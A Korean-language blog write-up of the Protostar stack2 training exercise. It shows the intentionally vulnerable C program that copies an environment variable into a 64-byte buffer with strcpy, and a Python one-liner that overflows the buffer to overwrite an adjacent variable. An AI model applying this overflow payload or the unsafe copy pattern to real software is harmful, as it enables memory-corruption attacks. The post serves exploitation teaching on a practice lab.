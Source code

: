 ```yaml
---
layout: post
title: "[exploit-exercise] Protostar stack2"
date: 2016-07-02 20:03:10
category: wargame
tags:  [exploit-exercise, protostar]
---
```


[Protostar Stack2 - Exploit Exercises](https://exploit-exercises.com/protostar/stack2/)

>Stack2 looks at environment variables, and how they can be set.
>
>This level is at /opt/protostar/bin/stack2

<!--more--> 

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

#### Exploit

`GREENIE` 환경 변수를 설정되어 있는지를 확인하고, 이 값이 buffer 로 copy 되므로 exploit 을 `GREENIE` 환경 변수 실어서 설정하면 된다.

```bash
$ export GREENIE="`python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"'`"
$ env
...
SSH_TTY=/dev/pts/0
GREENIE=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


LOGNAME=user
TERM=xterm
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
LANG=en_US.UTF-8
SHELL=/bin/sh
...

$ ./stack2
you have correctly modified the variable    
```

